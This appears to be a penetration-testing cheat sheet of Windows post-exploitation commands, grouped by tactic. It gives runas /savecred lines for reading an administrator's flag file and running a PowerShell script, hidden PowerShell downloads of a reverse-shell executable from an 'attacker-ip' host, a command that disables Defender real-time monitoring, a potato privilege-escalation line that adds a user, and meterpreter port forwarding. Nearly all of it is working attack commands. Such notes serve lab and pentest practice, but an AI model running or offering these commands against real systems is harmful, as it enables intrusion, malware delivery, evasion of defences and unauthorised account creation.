 ## privileged file copy
- `runas /user:hostname\Administrator /savecred "cmd.exe /c type c:\users\administrator\desktop\root.txt > C:\Users\security\AppData\Local\Temp\root.txt"`

## privileged powershell execution
- `runas /user:hostname\Administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\AppData\Local\Temp\boom.ps1"`

## privileged cmd execution
- `runas /user:administrator /savecreds cmd.exe`

---

## powershell
- serivce: windows
- tactics: execution

### powershell upload
- `powershell Invoke-WebRequest "http://attacker-ip:81/x41.csproj" -OutFile "C:\ProgramData\x41.csproj"`
- `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -Command "(New-Object System.Net.WebClient).DownloadFile('http://attacker-ip/rev.exe', 'C:\ProgramData\')"`

### powershell disable av 
- `Set-MpPreference -DisableRealtimeMonitoring $true`

---

# potato.exe
- serivce: windows
- tactics: privilege_escalation

## hot potato usage
- `potato.exe -ip <local ip> -cmd "c:\\windows\\system32\\cmd.exe /K net users username password /add" -disable_exhaust true`

---

# Metasploit
- serivce: all
- tactics: command_and_control

## Port forward using meterpreter
- `portfwd add -l <attacker port> -p <victim port> -r <victim ip>`
- `portfwd add -l 3306 -p 3306 -r 192.168.1.101`

---